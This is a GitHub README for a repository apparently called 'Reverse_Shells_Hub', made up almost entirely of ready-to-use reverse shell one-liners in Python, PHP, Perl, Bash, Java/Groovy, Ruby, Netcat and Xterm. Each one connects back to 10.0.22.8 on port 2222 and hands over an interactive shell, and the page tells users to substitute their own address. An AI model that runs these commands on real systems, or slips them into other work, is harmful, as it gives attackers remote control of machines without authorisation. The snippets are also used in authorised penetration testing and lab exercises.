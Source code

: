 # Reverse_Shells_Hub - XORPIOv

![](https://github.com/XORPIOv/lib/blob/main/sharingan.png)

**Reverse Shells Hub is a repository containg reverse shells for most used languages**

Download all the Reverse Shells on Linux by the command  **git clone https://github.com/XORPIOv/reverse_shells.git**
OR download as **ZIP FILE** for Windows

## Shells
Find the **latest versions of all the scripts in [the releases page](https://github.com/XORPIOv/reverse_shells.git)**.
## Python
```bash
# XORPIOv PYTHON SHELL | A Reverse Shell in PYTHON.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.22.8",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Php
```bash
// XORPIOv PHP SHELL | A Reverse Shell in PHP.
// Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
//
// Description
// ------------
// Change IP Address && PORT to local IP && PORT.

php -r '$sock=fsockopen("10.0.22.8",2222);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Perl
```bash
# XORPIOv PERL SHELL | A Reverse Shell in PERL.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

perl -e 'use Socket;$i="10.0.22.8";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Bash
```bash
# XORPIOv BASH SHELL | A Reverse Shell in BASH.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

bash -i >& /dev/tcp/10.0.22.8/2222 0>&1
```
## Java
```bash
/*

XORPIOv JAVA SHELL | A Reverse Shell in JAVA.
Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv

Description
------------
This shell / script will allow you to make an outbound connection to local IP Address and port.
Change IP Address && PORT to local IP && PORT.

*/

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.22.8/2222;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ruby
```bash
# XORPIOv RUBY SHELL | A Reverse Shell in RUBY.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

ruby -rsocket -e'f=TCPSocket.open("10.0.22.8",2222).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```bash
# XORPIOv NETCAT SHELL | A Reverse Shell in NETCAT.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

nc -e /bin/sh 10.0.22.8 2222
```
## Xterm
```bash
# XORPIOv XTERM SHELL | A Reverse Shell in XTERM.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

xterm -display 10.0.22.8:2222
```

**ReverseShellsHub** will always be updated
